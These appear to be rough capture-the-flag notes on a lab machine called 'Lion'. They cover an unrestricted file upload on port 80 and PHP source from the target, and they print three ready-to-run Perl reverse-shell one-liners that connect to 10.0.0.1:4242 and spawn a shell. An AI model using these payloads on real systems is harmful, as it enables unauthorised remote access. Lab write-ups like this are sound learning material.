 ```

if (in_array($page, $allowedPages)) {
    include($page);
} else {
    echo "No LFI for You x)";
}
?>
</div>
</body>
</html>

root@lion:/var/www/nginx#
```

can get in as `alex` due to unrestricted file load on `:80/uploads`. file should be a perl reverse shell script
```perl
perl -e 'use Socket;$i="10.0.0.1";$p=4242;socket(S,PF_INET,SOCK_STREAM,getprotobyname("tcp"));if(connect(S,sockaddr_in($p,inet_aton($i)))){open(STDIN,">&S");open(STDOUT,">&S");open(STDERR,">&S");exec("/bin/sh -i");};'

perl -MIO -e '$p=fork;exit,if($p);$c=new IO::Socket::INET(PeerAddr,"10.0.0.1:4242");STDIN->fdopen($c,r);$~->fdopen($c,w);system$_ while<>;'


NOTE: Windows only
perl -MIO -e '$c=new IO::Socket::INET(PeerAddr,"10.0.0.1:4242");STDIN->fdopen($c,r);$~->fdopen($c,w);system$_ while<>;'
```

Unrestricted File load and Perl Reverse shell in Lion Machine.
```
root@lion:/var/www/html/upload# ls
image.png  index.php  uploads
root@lion:/var/www/html/upload# cat -v index.php
<?php
$filename = uniqid() . "-" . time();
$extension = pathinfo($_FILES["fileToUpload"]["name"], PATHINFO_EXTENSION);
$basename = $filename . '.' . $extension;
$target_dir = "uploads/";
$target_file = $target_dir . $basename;
$uploadOk = 1;

if (isset($_POST["submit"])) {
    // Check if file already exists
    if (file_exists($target_file)) {
        echo "Sorry, file already exists.";
        $uploadOk = 0;
    }

    // Check file size (limit to 500KB)
    $maxFileSize = 500000;
    if ($_FILES["fileToUpload"]["size"] > $maxFileSize) {
        echo "Sorry, your file is too large.";
        $uploadOk = 0;
    }

    // Validate file extension
    $allowedExtensions = array("jpg", "jpeg", "png", "gif");
    if (!in_array($extension, $allowedExtensions)) {
        echo "Sorry, only JPG, JPEG, PNG, and GIF files are allowed.";
        $uploadOk = 0;
    }

```